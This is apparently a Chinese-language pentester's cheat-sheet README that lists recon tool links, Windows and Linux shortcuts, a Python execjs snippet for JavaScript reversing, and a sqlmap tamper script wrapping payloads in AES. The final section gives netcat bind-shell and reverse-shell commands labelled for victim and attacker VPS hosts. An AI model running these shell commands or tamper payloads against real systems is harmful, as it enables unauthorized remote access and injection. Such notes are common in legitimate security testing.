 ## 渗透测试工具集


- Bscan 信息收集工具
- poc扫洞





## 工具集

ARL资产灯塔系统：https://github.com/TophantTechnology/ARL

Clash（支持 SS / VMess 协议）: https://github.com/Fndroid/clash_for_windows_pkg/releases

Proxy插件: https://chrome.google.com/webstore/detail/proxy-switchyomega/padekgcemlokbadohgkifijomclgjgif?hl=zh-CN

## 常用命令

```
按住shift + 右击 能复制文件路径

win +w 小手拖

ctrl + N 打开桌面/新建桌面

cmd  notepad 快速打开一个记事本文件

ctrl + shift + n  鼠标右击 + w + f快速创建一个文件夹

ctrl + w 退出

ctrl + R 刷新

ncpa.cpl 网卡

firewall.cpl

regedit 注册表

ctrl + m 最小化

ctrl + shift + m 最大化

ctrl + w 关闭

ctrl + shift + t 恢复

ctrl+ tab 切换页面

ctrl + win + d  新建桌面

ctrl + win + ← → 切换桌面

ctrl + shift + f 切换繁体 简体 簡體 繁體 哈哈

win + D 显示桌面

compmgmt.msc 计算机管理

gpedit.msc  本地策略编辑器

ctrl +shift +esc 任务管理器

ctrl + 数字 浏览器窗口切换
```

```
linux
ctrl + c 终止命令
ctrl + s 暂停/按任意键恢复
ctrl + a 光标移至输入行首 home键
ctrl + e 光标移至输入行尾 end 键


/str  查找str。n下一个，N上一个。
dd 剪切当前行
yy 复制当前行
p  粘贴内容到下一行
G  定位到最后一行
u  撤销操作

x  保存退出
即 x = wq
!  强制执行命令

```

### 代码模板
#### JavaScript逆向
```
import execjs

with open("./dns.js",'r',encoding='utf-8') as f:

    ctx = execjs.compile(f.read())
    # 调用get_enc方法，传参 1，并将return的值赋给变量enc
    enc = ctx.call(
        "AES_Decrypt",
        'OzVk7hagbpdID5hcIGsWLg==')
    # 打印enc值
    print(enc)

```
#### Tamper
```
import execjs
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    pass


def tamper(payload, **kwargs):
    with open(r"E:\PyProject\tamper\aes.js") as f:
        ctx = execjs.compile(f.read())
        enc = ctx.call(
            "AES_Decrypt",
            f"{payload.encode(encoding='utf-8')}"
        )
        str_aes = enc
        return str_aes if payload else payload
```

# 常用命令

## NC

1.正向shell

```
受害者   nc -lvvp 4444 -t -e /bin/bash

vps     nc cl_ip 4444
```

2.反向shell

```
vps 	nc -lvvp 4444

受害者   nc vps_ip 4444 
```


